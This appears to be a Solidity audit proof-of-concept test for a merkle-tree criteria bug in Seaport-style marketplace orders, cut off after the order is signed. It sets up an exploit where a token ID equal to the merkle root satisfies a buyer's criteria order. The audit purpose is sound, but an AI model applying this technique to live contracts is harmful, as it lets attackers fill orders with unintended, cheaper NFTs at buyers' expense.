         function testMerkleTreeBug() public resetTokenBalancesBetweenRuns {
            // Alice wants to buy NFT ID 1 or 2 for token1. compute merkle tree
            bytes32 leafLeft = bytes32(uint256(1));
            bytes32 leafRight = bytes32(uint256(2));
            bytes32 merkleRoot = hashHashes(leafLeft, leafRight);
            console.logBytes32(merkleRoot);
    
            Context memory context = Context(
                consideration,
                merkleRoot, /* tokenCriteria */
                1e18, /* paymentAmount */
                address(0), /* zone */
                bytes32(0), /* zoneHash */
                uint256(0) /* salt */
            );
            bytes32 conduitKey = bytes32(0);
    
            token1.mint(address(alice), context.paymentAmount);
            // @audit assume there's a token where anyone can acquire IDs. smaller IDs are more valuable
            // we acquire the merkle root ID
            test721_1.mint(address(this), uint256(merkleRoot));
    
            _configureERC20OfferItem(
                // start, end
                context.paymentAmount, context.paymentAmount
            );
            _configureConsiderationItem(
                ItemType.ERC721_WITH_CRITERIA,
                address(test721_1),
                // @audit set merkle root for NFTs we want to accept
                uint256(context.tokenCriteria), /* identifierOrCriteria */
                1,
                1,
                alice
            );
    
            OrderParameters memory orderParameters = OrderParameters(
                address(alice),
                context.zone,
                offerItems,
                considerationItems,
                OrderType.FULL_OPEN,
                block.timestamp,
                block.timestamp + 1000,
                context.zoneHash,
                context.salt,
                conduitKey,
                considerationItems.length
            );
    
            OrderComponents memory orderComponents = getOrderComponents(
                orderParameters,
                context.consideration.getNonce(alice)
            );
            bytes32 orderHash = context.consideration.getOrderHash(orderComponents);
            bytes memory signature = signOrder(
                context.consideration,
                alicePk,
                orderHash
            );
    